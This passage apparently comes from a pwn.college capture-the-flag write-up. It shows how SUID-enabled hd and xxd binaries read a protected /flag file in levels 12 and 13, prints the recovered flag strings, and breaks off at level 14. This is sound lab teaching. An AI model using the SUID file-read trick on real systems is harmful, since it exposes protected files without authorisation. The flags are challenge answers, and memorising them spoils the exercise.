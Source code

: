 ```
hacker@program-misuse~level12:/$ hd /flag 
00000000  70 77 6e 2e 63 6f 6c 6c  65 67 65 7b 34 48 64 41  |pwn.college{4HdA|
00000010  47 32 32 70 5f 68 75 42  4d 63 2d 69 4d 35 72 38  |G22p_huBMc-iM5r8|
00000020  32 5a 4b 69 52 63 70 2e  30 46 4e 31 45 44 4c 34  |2ZKiRcp.0FN1EDL4|
00000030  49 54 4d 30 45 7a 57 7d  0a                       |ITM0EzW}.|
00000039
```

&nbsp;

## level 13

> Requires you to understand their output to derive the flag from it!

```
hacker@program-misuse~level13:/$ /challenge/babysuid_level13 
Welcome to /challenge/babysuid_level13!

This challenge is part of a series of programs that
require you to understand their output to derive the flag from it.

I just set the SUID bit on /usr/bin/xxd.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level13) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/xxd!
```

The `xxd` creates a hex dump of the input provided through STDIN.

```
hacker@program-misuse~level13:/$ xxd /flag 
00000000: 7077 6e2e 636f 6c6c 6567 657b 4d58 3876  pwn.college{MX8v
00000010: 4870 3454 724c 5a50 7735 5070 3579 7a68  Hp4TrLZPw5Pp5yzh
00000020: 5130 724a 6753 412e 3056 4e31 4544 4c34  Q0rJgSA.0VN1EDL4
00000030: 4954 4d30 457a 577d 0a                   ITM0EzW}.
```

&nbsp;

## level 14

> Requires you to understand their output to derive the flag from it!

```
hacker@program-misuse~level14:/$ /challenge/babysuid_level14 
Welcome to /challenge/babysuid_level14!

This challenge is part of a series of programs that
require you to understand their output to derive the flag from it.

I just set the SUID bit on /usr/bin/base32.
Try to use it to read the flag!

IMPORTANT: make sure to run me (/challenge/babysuid_level14) every time that you restart
this challenge container to make sure that I set the SUID bit on /usr/bin/base32!
```
